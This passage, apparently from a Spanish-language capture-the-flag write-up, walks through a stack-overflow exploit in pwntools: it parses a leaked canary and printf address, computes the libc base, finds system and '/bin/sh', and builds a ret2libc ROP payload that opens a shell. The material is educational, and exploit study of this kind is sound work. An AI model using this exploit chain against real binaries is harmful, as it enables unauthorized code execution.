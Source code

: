 ```python
canary = re.search(r'^[0-9a-fA-F]+', leaks).group() # Capturamos el valor del canary
canary = int(canary, 16)

printf_leak = re.search(r'0x[0-9a-fA-F]+', leaks).group()   # Capturamos el valor del leak
printf_leak = int(printf_leak, 16)

log.info(f"Canary -> {hex(canary)}")
log.info(f"Printf -> {hex(printf_leak)}")
```

Hasta este punto sólo hemos recogido el valor del leak y del canario. Teniendo el leak, sólo debemos buscar la dirección de `printf` en Libc y restársela al leak:

```python
#Calculamos la dir base de libc
base_libc = printf_leak - libc.symbols["printf"]

log.info(f"Base Libc -> {hex(base_libc)}")
```

## Calculando las direcciones que nos faltan

Ahora debemos calcular la dirección de `system` y buscar en Libc el offset hasta la cadena `/bin/sh` (y añadirle a la dirección base):

```python
#Buscamos la cadena /bin/sh
bin_sh = base_libc + next(libc.search(b'/bin/sh'))
log.info(f"Bin_sh -> {hex(bin_sh)}")

#Calculamos la direccion de system
system = base_libc + libc.symbols['system']
log.info(f"System -> {hex(system)}")
```

## Construyendo el payload

Finalmente, haciendo uso de los gadgets de la propia Libc podemos poner cada valor en su registro (hace falta además un gadget `ret` que *alinee el stack*):

```python
#2o input
io.recvuntil(b"$ ")

payload = b'A'*24
payload += p64(canary)
payload += b'B'*8
payload += p64(base_libc + 0x23b6a) #0x0000000000023b6a: pop rdi; ret;
payload += p64(bin_sh)
payload += p64(base_libc + 0x22679) #0x0000000000022679: ret;
payload += p64(system)
payload += b'C'*16

io.sendline(payload)

io.interactive()
```
